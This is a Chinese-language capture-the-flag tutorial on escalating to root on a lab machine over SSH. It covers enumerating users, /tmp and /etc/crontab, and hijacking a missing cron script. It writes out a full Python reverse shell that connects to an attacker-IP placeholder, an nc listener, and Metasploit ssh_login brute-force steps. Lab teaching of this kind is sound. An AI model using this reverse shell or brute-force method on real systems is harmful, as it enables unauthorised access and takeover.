# CTF夺旗赛：P5：SSH服务测试与权限提升 🚩

在本节课中，我们将学习如何通过SSH服务渗透靶机，并最终获取root权限以读取flag文件。我们将从信息收集开始，探索权限提升的多种途径，包括利用定时任务和暴力破解，最终完成夺旗目标。



---





## 信息收集与初步探索



上一节我们使用martin用户登录了服务器。本节中，我们来看看如何收集系统信息，为后续的权限提升做准备。



首先，我们确认当前用户martin并非root用户。使用`id`命令可以查看用户权限和所属组。



```bash
id
```



接下来，我们需要查看系统配置以寻找可利用的线索。以下是几条关键的信息收集命令。

以下是查看系统用户和组信息的命令：

*   `cat /etc/passwd`：查看所有用户列表。
*   `cat /etc/group`：查看所有用户组信息。

我们还可以使用`find`命令查找属于特定用户的文件。





```bash
find / -user username
```

此外，临时目录`/tmp`也值得关注，这里可能存放着敏感或可被利用的临时文件。使用`ls -la /tmp`命令进行查看。

---

## 深入挖掘：定时任务（Cron Jobs）🔍

在完成基础信息收集后，我们并未发现明显的可利用点。本节我们将深入挖掘一个在CTF比赛中特别值得关注的位置——系统的定时任务。

`/etc/crontab`文件用于设定系统定期执行的任务，通常需要root权限编辑。在CTF中，我们经常需要检查此文件，因为用户可能在此设置了定时任务。

如果发现某个用户设置了定时执行某个脚本（例如在`/tmp`目录下），但该脚本文件实际不存在，我们就可以利用此漏洞。我们可以创建同名文件，并写入反弹shell代码，当定时任务执行时，就能获得该用户的权限。

首先，查看`/etc/crontab`文件内容。

```bash
cat /etc/crontab
```

假设我们发现了一条jim用户的定时任务，每分钟执行一次`/tmp/security.py`，但该文件并不存在。这为我们提供了机会。

---

## 利用定时任务获取Shell

上一节我们发现了不存在的定时任务脚本。本节中，我们来看看如何创建恶意脚本并获取反向连接。

我们可以在`/tmp`目录下创建名为`security.py`的文件，并写入Python反弹shell代码。以下是一个典型的反弹shell代码示例：

```python
#!/usr/bin/env python3
import socket,subprocess,os
s=socket.socket()
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```





**代码解释**：
*   `socket.socket()` 创建套接字，默认使用TCP协议。
*   `s.connect()` 连接到攻击机的指定端口。
*   `os.dup2()` 将标准输入(0)、输出(1)、错误(2)重定向到套接字。
*   `pty.spawn(“/bin/bash”)` 生成一个交互式的bash shell。

在攻击机（如Kali）上，我们需要使用`netcat`监听对应端口。

```bash
nc -lvp 4445
```

然后，在靶机`/tmp`目录下，将写好的脚本重命名为`security.py`，并赋予执行权限。



```bash
mv exploit.py security.py
chmod +x security.py
```



等待定时任务执行后，我们将在攻击机的`netcat`监听端获得一个来自jim用户的反向shell。

---

## 权限提升与最终夺旗 🏁

通过定时任务，我们获得了jim用户的shell。然而，使用`id`命令检查发现，jim用户同样不是root权限，无法直接读取flag。

此时，我们需要尝试其他方法。回顾之前收集的用户信息，还有一个用户`hadi`尚未尝试。我们可以尝试对`hadi`用户的SSH密码进行暴力破解。

我们使用`cupper`工具生成针对`hadi`的个性化字典，然后利用Metasploit框架的`ssh_login`模块进行爆破。

**步骤概要**：
1.  生成字典：`./cupper -i`
2.  启动Metasploit：`msfconsole`
3.  使用模块：`use auxiliary/scanner/ssh/ssh_login`
4.  设置参数：
    *   `set RHOSTS 靶机IP`
    *   `set USERNAME hadi`
    *   `set PASS_FILE 字典文件路径`
5.  执行：`run`

爆破成功后，我们获得了`hadi`用户的SSH密码（例如：hadi123）。使用该密码通过SSH登录靶机。

```bash
ssh hadi@靶机IP
```

登录后，我们惊喜地发现，`hadi`用户可以直接使用`su`命令切换到root用户。

```bash
su - root
# 输入密码 hadi123
```



使用`whoami`和`id`命令确认已获得root权限。最后，在根目录下寻找并读取flag文件。



```bash
ls /
cat /flag.txt
```

成功获取flag，完成夺旗！



---



## 总结与要点回顾

本节课中，我们一起学习了针对SSH服务的完整渗透测试流程。

*   **信息收集是基础**：通过查看`/etc/passwd`、`/etc/group`、`/tmp`目录以及`/etc/crontab`文件，可以获取大量有价值的信息。
*   **定时任务是常见突破口**：`/etc/crontab`与`/tmp`目录的组合在CTF中经常出现。利用不存在的定时任务脚本写入恶意代码，是获取初始shell的有效手段。
*   **权限提升需要多路径尝试**：初始获得的shell可能权限有限。需要结合信息收集结果，尝试密码爆破、SUID提权等多种方式。
*   **暴力破解是最后手段**：当其他方法失效时，对SSH等服务进行密码暴力破解可能奏效。使用个性化字典能提高成功率。
*   **最终目标明确**：获取root权限后，首要任务是在常见目录（如`/`、`/root`、`/home`）下寻找并读取flag文件（通常为`flag`、`flag.txt`或`proof.txt`）。



请特别注意`/tmp`目录和`/etc/crontab`文件，这两者的组合是CTF比赛中的高频考点。